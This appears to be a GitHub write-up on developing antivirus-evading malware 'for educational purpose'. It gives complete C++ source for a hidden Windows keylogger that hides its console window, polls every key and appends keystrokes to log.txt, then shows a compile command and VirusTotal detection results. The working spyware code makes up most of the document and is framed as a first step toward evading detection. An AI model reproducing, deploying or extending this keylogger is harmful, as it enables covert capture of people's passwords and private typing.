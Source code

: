 Malware Experimentation
---

In this experiment, i will try to develop a malware that is able to bypass antivirus softwares for educational purpose. For the sake of demonstration, i will primarily use C++ to create a malware.

Jan 21 2025
---

I have created a keylogger file using one on the internet in which it will save the output in log.txt every time i type.

```
#include <iostream>
#include <windows.h>

using namespace std;

int Save(int _key, char *file);

int main(){
    FreeConsole();

    char i;
    while(true) {
    Sleep(10);
    for(i=8; i<=255; i++) {
        if(GetAsyncKeyState(i)== -32767){
            Save(i, "log.txt");
        }
    }

} 
return 0;
}

int Save(int _key, char *file) {
    cout<< _key << endl;
    Sleep(10);
    FILE *OUTPUT_FILE; // can also use the ofstream command
    OUTPUT_FILE = fopen(file, "a+"); //a+ is used to add new keys each time, and not overwrite
    switch(_key)
    {
        case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]");
            break;
        case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]");
            break;
        case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]");
            break;
        case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]");
            break;
        case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]");
            break;
        case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]");
            break;
        case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]");
            break;
        case VK_CONTROL: fprintf(OUTPUT_FILE, "[Ctrl]");
            break;
        case VK_MENU: fprintf(OUTPUT_FILE, "[Alt]");
            break;
        case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS Lock]");
            break;
        case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]");
            break;
    }
    fprintf(OUTPUT_FILE, "%s", &_key);
    fclose(OUTPUT_FILE);
    return 0;
}
```
Next, i compiled it with g++

```
g++ -o test test.cpp
```
**File: log.txt**

![image](https://github.com/user-attachments/assets/ef8020dd-bf85-4d72-98ef-9adac3c205fa)

As you can see from the output file, it records everything when this file is running. Now let's see how it is evaluated in VirusTotal.

![image](https://github.com/user-attachments/assets/3eec70fa-01ad-49a6-8db8-17eb5c6846be)

**Results:** It seems that some antivirus flag this file as a spyware which is correct but at this is momemt it isn't a spyware yet! (and some give us false positive result lol)


